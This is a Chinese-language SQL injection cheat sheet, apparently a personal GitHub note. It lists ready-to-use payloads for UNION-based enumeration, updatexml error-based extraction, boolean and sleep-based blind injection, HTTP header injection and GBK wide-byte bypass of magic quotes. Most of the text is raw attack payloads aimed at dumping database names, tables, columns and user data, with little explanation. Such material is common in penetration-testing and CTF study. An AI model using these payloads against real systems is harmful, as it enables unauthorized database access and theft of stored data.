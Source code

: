 # 首先
> 让' " 闭合

> ' -- qwe

> " -- qwe

> ') -- qwe

> ") -- qwe

> 利用 and 1=1  和  and 1=2  来查看报错显示

> 如果 and 1=2  没有报错显示试试  sleep(n)(延时)

# 联合查询：

## get传参
          order by n ---- 确定有几个字段
          select 1,2,3.....(根据前面判断的字段个数看看有无回显)
          union select database()
          union select user()
          union select version()
          union select group_concat(table_name) from information_schema.table where table_schema = database()
          union select group_concat(column_name) from information_schema.columns where table_name = '查询的表名'
          union select group_concat(查询到的column名字) from '表名'
## post传参
          or 1 = 1    ---    万能密码登录
          ' or 1 = 1 # --->   能否登录
          目前想到的到的

# 报错注入：
```sql
          ?id = 1 ' and updatexml(1,concat(0x7e,(select database())),1) #
          ?id = 1 ' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database())),1) #
          ?id = 1 ' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name = '表名')),1) #
          ?id = 1 ' and updatexml(1,concat(0x7e,(select group_concat(字段名) from 表名)),1) #
          ?id = 1 ' and ord(mid((select ifnull(cast(username as char),0x20) from security.users order by id limit 0,1),1,1))
```

# 盲注：当没有回显但是可以执行代码
```sql
                库名长度
          ?id = 1 ' and length(database()) > 1 #
                猜库名
          ?id = 1 ' and left(database(),n) > 'a' #
          ?id = 1 ' and ascii(substr((select database()),1,1)) #
                猜表名
          ?id = 1 ' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema = database() limit 0,1),1,1)) #
                猜字段名个数
          ?id = 1 ' and (select count(column_name) from information_schema.columns where table_name='表名') > 1 #
                猜字段名
          ?id = 1 ' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name = '上一行代码查询到的数据表名'),1,1)) #
```
# 时间注入：
```sql
          ?id = 1 ' and sleep(5) #  ---  有延时就会发现后面的代码可以执行存在注入
          ?id = 1 ' and if(length(database()) > 1,sleep(2),1) #
          ?id = 1 ' and if(ascii(substr((select database()),1,1) > 1,sleep(2),1) #
          ?id = 1 ' and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema = database() limit 0,1),1,1) > 1,sleep(2),1) #
          ?id = 1 ' and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name = '表名' limit 0,1),1,1)) > 1,sleep(2),1) #
          ?id = 1 ' and if(ascii(substr((select group_concat(字段名) from 表名 limit 0,1),1,1)) > 1,sleep(2),1) #
```
# 头注入：
```sql

          利用User-Agent

          利用Referer

          利用X-Forwarded-For

```
# 宽字节注入：
```sql
          (php5.4以上的版本去除掉了)魔术引号：magic_quotes_gpc()  ---  屏蔽' " \ 这三个前面都会加上上\
          利用gbk是2个字节
          utf-8是3个字节可以输入%df' ----> %df\'  让%df和\变成一个汉字从而进行注入
          %df' or 1 = 1 -- qwe
          看有无回显
          有回显利用联合查询
          无回显旧用盲注
```
          